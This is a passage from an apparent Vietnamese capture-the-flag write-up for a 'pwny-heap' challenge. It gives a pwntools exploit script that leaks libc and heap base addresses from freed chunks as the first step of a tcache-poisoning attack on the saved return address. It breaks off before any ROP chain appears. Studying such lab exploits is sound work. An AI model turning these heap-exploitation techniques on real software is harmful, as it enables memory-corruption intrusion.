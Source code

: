 
CÁCH 2 ```ROP_CHAIN``` : vẫn là tcache_poisioining nhưng lần này là overwrite save_rip

script 


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwny-heap_patched")
libc = ELF("./libc-2.35.so")
ld = ELF("./ld-2.35.so")

context.binary = exe

g = lambda x: gdb.attach(x)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x=None: p.recv() if x is None else p.recv(x)
rl = lambda: p.recvline()
ru = lambda x: p.recvuntil(x)

p = process()

def create(idx,size):
    sla(">","1")
    sla("index:",str(idx))
    sla("size:",str(size))

def delete(idx):
    sla(">","2")
    sla("index:",str(idx))

def show(idx):
    sla(">","3")
    sla("index:",str(idx))

def edit(idx,content):
    sla(">","4")
    sla("index:",str(idx))
    sa("write something in:",content)


input()
create(0,0x508)
create(1,0x88)
create(2,0x508)
create(3,0x88)
delete(0)
delete(2)

show(0)
ru("here is some data for you buddy: ")
libc_base = u64(r(6).ljust(8,b'\x00')) - (0x73d193e1ace0 - 0x73d193c00000)
log.info(f"libc_base: {hex(libc_base)}")

show(2)
ru("here is some data for you buddy: ")
heap_base = u64(r(6).ljust(8,b'\x00')) - (0x624da112c290 - 0x624da112c000)
log.info(f"heap_base: {hex(heap_base)}")

# reset
```